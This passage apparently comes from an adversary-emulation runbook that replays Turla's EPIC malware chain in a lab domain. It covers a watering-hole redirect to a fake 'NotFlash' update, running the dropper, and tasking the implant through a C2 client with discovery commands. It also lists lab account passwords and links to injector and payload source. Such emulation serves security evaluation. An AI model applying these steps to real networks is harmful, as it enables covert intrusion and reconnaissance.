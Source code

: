 * Open Microsoft Edge and browse to `nato-int.com`. 

* Wait for redirection to `anto-int.com`.

* After redirection you will prompted to update NotFlash. Click to download the
update (`NFVersion_5e.exe`) bundled with EPIC (a.k.a. Tavdig/Wipbot).

* Once the download has been completed, click the downloaded binary to execute it.

* Wait 1 minute for it to finish running.

* Close out of all tabs and sign out of your RDP session.

* Re-RDP to `Azuolas (10.100.40.103)` as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

* Open Microsoft Edge and browse to `https://drebule.nk.local/owa`. Log in as `Egle`:

| Username   | Password | 
| :--------: | :---------------: | 
| nk\Egle  | Producer1! |

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe
and, subsequently, EPIC's worker DLL into Microsoft Edge. 

* Within the terminal window, split your terminal horizontally via right-click -> split terminal. Be careful not to accidentally terminate the control server.

* In your lower terminal tab, task the EPIC implant with the following set of discovery commands:

```bash
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | systeminfo && net group "Domain Computers" /domain'
```

### :moyai: Source Code

* Watering Hole
  * [Browser redirection](../../Resources/setup/files/watering_hole/redirection.py#L18-L31)
  * Browser evercookie (utilized built-in [BeEF Evercookie](https://github.com/beefproject/beef/blob/486a9bb329f46e434e40c8e8567afa2754b37517/core/main/client/session.js#L15-L16) from the Browser Exploitation Framework)
  * [Fingerprinting details](../../Resources/setup/files/watering_hole/README.md#fingerprinting-details-from-beef-via-evercookie-and-other-bundled-tools)
* [EPIC Dropper](../../Resources/EPIC/SimpleDropper)
  * [File write of EPIC injector](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L34-L50)
  * [Registry modification](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L95-L143)
* [EPIC Injector](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/)
  * Extract EPIC Guard DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L161-L193)
  * Targeting explorer.exe for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L199-L233)
* [EPIC Guard](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/)
  * Extract EPIC payload DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L161-L193)
  * Targeting svchost.exe for payload [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L235-L283)
* [EPIC Payload](../../Resources/EPIC/payload/) (in msedge.exe)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * User discovery [GetAllUsers](../../Resources/EPIC/payload/src/epic.cpp#L111-L182)